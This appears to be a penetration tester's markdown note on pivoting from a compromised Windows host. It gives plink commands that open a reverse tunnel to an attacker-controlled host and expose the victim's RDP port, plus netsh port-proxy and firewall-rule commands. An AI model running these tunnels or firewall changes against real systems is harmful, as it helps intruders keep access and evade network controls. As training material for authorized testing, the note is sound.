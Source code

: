 # Port Forwarding with Windows Tools

SSH utilities can be found in `%systemdrive%\Windows\System32\OpenSSH`.
ssh.exe behaves as you'd expect.


## Plink

As we won't always have an openSSH client on windows hosts, it can be good to get an understanding of some alternatives.
PuTTY for the CLI.
It has similar features to openSSH, but without remote dynamic port forwarding.

If you are getting an error about algorithm choice when calling plink, consider getting a newer version from [here](https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html).


assuming we have `plink.exe` available on the windows host, we can do remote port forwarding with:

```
cmd.exe /c echo y | .\plink.exe -ssh -l ${ATTACKER_USER} -pw ${ATTACKER_PW} -R 127.0.0.1:${LISTENING_PORT}:${EXTERNAL_IP}:${EXTERNAL_PORT} ${ATTACKER_IP} 
```


(note the pipe command which answers `y` to the question about keys. The second time you do it, leave out the piping).
This can also be used to expose RDP:

```
cmd.exe /c echo y | .\plink.exe -ssh -l ${ATTACKER_USER} -pw ${ATTACKER_PW} -R 127.0.0.1:${LISTENING_PORT}:127.0.0.1:3389 ${ATTACKER_IP} 
```

Now, you can do the following from `${ATTACKER_IP}`:

```
xfreerdp /u:${DOMAIN}\\${user} /p:${password} /cert:ignore /v:127.0.0.1:${LISTENING_PORT}
```
## Netsh

Native way of port forwarding from windows (requires admin permissions):
```
netsh interface portproxy add v4tov4 listenport=${OWNED_PORT0} listenaddress=${OWNED_IP0} connectport=${OWNED_PORT1} connectaddress=${OWNED_IP1}
```
If you ever need to add firewall rules to allow traffic to flow through a given port on Windows (also requires admin permissions):
```
netsh advfirewall firewall add rule name="port_forward_ssh_${OWNED_PORT0}" protocol=TCP dir=in localip=${OWNED_IP0} localport=${OWNED_PORT0} action=allow
```

